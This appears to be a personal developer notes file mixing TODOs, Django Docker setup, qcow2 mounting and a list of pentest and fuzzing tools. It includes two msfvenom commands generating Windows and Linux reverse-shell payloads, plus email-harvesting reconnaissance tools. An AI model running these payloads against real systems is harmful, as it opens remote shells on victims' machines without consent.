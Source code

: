 # MOTHERS OF ALL
https://github.com/Hack-with-Github/Awesome-Hacking

TODO - track cura bug issue
TODO - execute script on shutdown 
       so far:
       service in /usr/lib/systemd/system-shutdown/clean_gnome_home.shutdown
       script in /bin/clean_home
TODO - Kioku: Rename 'Shell' skill to Bash and create a new Shell skill with cmnd line utilities
TODO - check what I got in store PHP wise @ root (with PsySH)
TODO - for Python relevant stuff make a Notebook rather than a .md file (Python.md)

## Django Docker
1. define relative WSGIPythonPath to django project -> see django-apache2-docker/demo_site.conf
2. Add wsgi.py file in demo_site/demo_site/ & link to demo_site.settings
3. Add WSGI_APPLICATION = 'demo_site.wsgi.application' in demo_site/demo_site/settings.py
4. Enjoy?


## BSS section
containing statically-allocated variables

## Evaluate WordPress
https://github.com/sammanthp007/WordPress-Pentesting-Setup
$ wpscan

## CRAWL
git clone https://github.com/killswitch-GUI/SimplyEmail.git
$ theharvester

## FUZZER
https://github.com/mirrorer/afl.git
https://github.com/jtpereyda/boofuzz.git # pip install boofuzz

## TRIDACTYL direct Download
https://tridactyl.cmcaine.co.uk/betas/tridactyl-latest.xpi

## Windows reverse shell
msfvenom -p windows/shell_reverse_tcp LHOST=eth0 LPORT=8080 EXITFUNC=thread \
-f raw -b "\x00\x09\x0d\x0a\x20\xff" -n 32 > warhead.txt
## Linux reverse shell
msfvenom -p linux/x64/shell_reverse_tcp \ # Specify the payload
            LHOST=127.0.0.1             \ # Target host to connect
            LPORT=4444                  \ # Target port
         -b '\x00'                      \ # Bad characters
         -f python                        # Format of the payload

### Mount qcow2 files
modprobe nbd
qemu-nbd --connect=/dev/nbd0 /path/to/qcow2file
mount /dev/nbd0p1 mnt

